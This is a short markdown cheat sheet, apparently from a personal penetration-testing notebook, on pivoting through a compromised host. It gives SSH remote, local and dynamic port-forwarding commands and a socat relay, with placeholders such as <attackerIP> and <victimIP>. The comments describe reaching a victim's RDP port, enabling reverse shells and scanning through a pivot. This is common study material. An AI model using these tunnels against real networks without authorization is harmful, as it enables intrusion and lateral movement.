 # SSH Tunnelling:
  ## SSH Remote Port Forwarding:
  - **Remote port forwarding allows you to take a reachable port from the SSH client and project it into a remote SSH server.**
  ![ssh rpf](https://github.com/Alikhoshkholgh/HackBook/blob/main/Windows-Environment/ActiveDirectory/zz-remote-SSH-portForwarding.png)
  
  ### Command:
  ```
  # attacker wants to see oprt:3389 from victim with pivot-machine. in the pivot-machine execute this command:
  ssh username@<attackerIP> -R <anything>:<victimIP>:3389 -N
  # now attacker can see the RDP from "localhost:<anything>"
  ```
  ## SSH Local Port Forwarding:
  - **Local port forwarding allows us to "pull" a port from an SSH server into the SSH client.**
  ![ssh lpf](https://github.com/Alikhoshkholgh/HackBook/blob/main/Windows-Environment/ActiveDirectory/zz-local-SSH-portforwarding.png)
  
  ### Command:
  ```
  #any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.
  #allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us 
  ssh tunneluser@<att-IP> -L *:<port number to receive connections>:127.0.0.1:<port number from attacker machine that is listening and we want to pull it> -N
  ```

# Socat:
 ```
 socat TCP4-LISTEN:<PortNumber for incoming connections>,fork TCP4:<IP-forward to this>:<PortNumber-forward to this port>
 ```
 
 
 # Dynamic Port Forwarding and SOCKS:
   - **what if you want to run a scan through a pivot host?**
   - **Command SSH**:
   ```
   # from pivot host run this to create SOCKS proxy listening on port <proxyPort> in the pivot host:
   ssh tunneluser@<attackerIP> -R <proxyPort> -N
   ```
 
 
